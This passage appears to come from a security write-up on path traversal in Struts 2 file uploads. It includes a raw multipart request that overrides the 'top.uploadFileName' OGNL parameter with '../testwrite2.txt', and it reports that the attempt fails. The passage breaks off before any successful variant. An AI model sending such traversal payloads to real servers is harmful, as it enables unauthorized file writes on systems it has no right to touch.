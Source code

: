   

First, We are trying to upload a text file with a simple path traversal payload. But This will get stripped and will fail.

  

```

RESULT: /path1/uploads/testwrite.txt

```

  

**Step 2:**

  

Now, We will try to use _top.uploadFileName_, the internal OGNL value used by Struts 2 for single-file uploads,

  

```

------WebKitFormBoundaryiqze7OZ2lynLStkK

Content-Disposition: form-data; name="upload"; filename="testwrite2.txt"

Content-Type: text/plain

TESTING

------WebKitFormBoundaryiqze7OZ2lynLStkK

Content-Disposition: form-data; name="top.uploadFileName"

../testwrite2.txt

------WebKitFormBoundaryiqze7OZ2lynLStkK--

```

  

Here we are trying to inject a path traversal attempted filename in the actual file name by using _top.uploadFileName._

  

So Basically, the value ‘../testwrite2.txt’ should also get uploaded in the specified path ‘../’. But this attempt will also fail.

  

```

RESULT: /path1/uploads/testwrite2.txt

```

  
